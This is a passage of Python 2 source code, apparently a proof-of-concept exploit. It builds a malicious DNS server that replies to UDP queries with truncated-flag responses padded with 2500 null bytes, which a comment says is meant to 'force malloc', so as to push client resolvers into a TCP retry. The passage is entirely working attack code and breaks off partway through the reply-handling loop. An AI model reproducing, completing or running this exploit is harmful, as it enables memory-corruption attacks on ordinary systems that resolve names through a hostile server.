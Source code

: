 ```

import socket
import time
import struct
import threading

IP = '127.0.0.1' # Insert your ip for bind() here...
ANSWERS1 = 184

terminate = False
last_reply = None
reply_now = threading.Event()


def dw(x):
  return struct.pack('>H', x)

def dd(x):
  return struct.pack('>I', x)

def dl(x):
  return struct.pack('<Q', x)

def db(x):
  return chr(x)

def udp_thread():
  global terminate

  # Handle UDP requests
  sock_udp = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
  sock_udp.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
  sock_udp.bind((IP, 53))

  reply_counter = 0
  counter = -1

  answers = []

  while not terminate:
    data, addr = sock_udp.recvfrom(1024)
    print '[UDP] Total Data len recv ' + str(len(data))
    id_udp = struct.unpack('>H', data[0:2])[0]
    query_udp = data[12:]

    # Send truncated flag... so it retries over TCP
    data = dw(id_udp)                    # id
    data += dw(0x8380)                   # flags with truncated set
    data += dw(1)                        # questions
    data += dw(0)                        # answers
    data += dw(0)                        # authoritative
    data += dw(0)                        # additional
    data += query_udp                    # question
    data += '\x00' * 2500                # Need a long DNS response to force malloc 

    answers.append((data, addr))

    if len(answers) != 2:
      continue

    counter += 1

    if counter % 4 == 2:
```